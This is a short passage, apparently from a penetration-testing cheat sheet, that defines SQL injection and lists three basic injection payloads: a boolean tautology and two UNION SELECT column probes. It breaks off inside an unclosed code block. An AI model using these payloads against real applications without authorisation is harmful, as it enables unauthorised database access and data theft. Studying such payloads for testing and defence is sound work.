 #### SQL Injection Methodology
SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution (e.g. to dump the database contents to the attacker).

```
' or1=1-- -

' UNION SELECT NULL,NULL,NULL,NULL-- -

' UNION SELECT 1,2,3,4-- -

